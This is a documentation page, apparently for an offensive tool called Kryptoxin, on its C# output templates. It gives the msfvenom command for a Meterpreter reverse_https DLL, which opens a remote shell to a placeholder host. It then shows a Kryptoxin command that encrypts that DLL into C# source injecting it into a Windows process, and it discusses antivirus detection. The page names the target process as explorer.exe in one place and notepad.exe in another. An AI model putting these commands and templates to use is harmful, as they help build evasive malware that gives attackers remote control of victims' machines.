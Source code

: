 # C\# (.NET)

Kryptoxin supports the [C# programming language](https://learn.microsoft.com/en-us/dotnet/csharp/) as an output language for templates.

## Overview

The C# language is very valuable in the security field, as it provides access to the .NET framework capabilities. Managed programs and DLLs can be written to perform system API calls while granting access to more sophisticated functions such as AES decryption.

All templates shipped with Kryptoxin can be directly pasted into [Visual Studio](https://visualstudio.microsoft.com) (we recommended versions >= `2022`) and be compiled without modification.

## Print Program (`print`)

This basic console program simply prints the UTF-8 encoded text encrypted by Kryptoxin. It uses the `System.Security.Cryptography` .NET class, which is widely supported by current Windows hosts.

``` sh
$ python -m kryptoxin encrypt -k s3cret --random-iv --random-salt \
--alg AES --key_size 192 --iter 5000 --lang csharp --action print
```

``` {.c# .no-copy}
using System.Security.Cryptography;

class Program // (1)!
{

    [...]
  
    static void Main(string[] args) // (2)!
    {
        [...]
    }
}
```

1. The class generated must be imported in a `C# .NET Console Program` project.
2. The main entry point is `Main()`, the latter will call the decoding and decryption routines.

## DLL Process Injection (`load-dll`)

This .NET console program injects a DLL such a those generated by the metasploit's msfvenom utility, into the `explorer.exe` process.

???+ warning "The .DLL file is written to the target's disk unencrypted"
    This C# console program uses the `LoadLibraryA()` Windows API function, which require a library file stored on the disk.
    Therefore it will write the decrypted DLL onto the host's hard disk, allowing for potential anti-virus detection.

The example below encrypt the `msf.dll` generated by msfvenom and output a C# console program source code that can be readily pasted into a Microsoft Visual Studio project.

``` sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=w.x.y.z LPORT=443 \
EXITFUNC=thread -f dll -o msf.dll
```

``` sh
$ python -m kryptoxin encrypt -k 123456 --random-iv --random-salt \
--lang csharp --action load-dll --in msf.dll --dllname=aton32.dll \
--process=notepad.exe
```
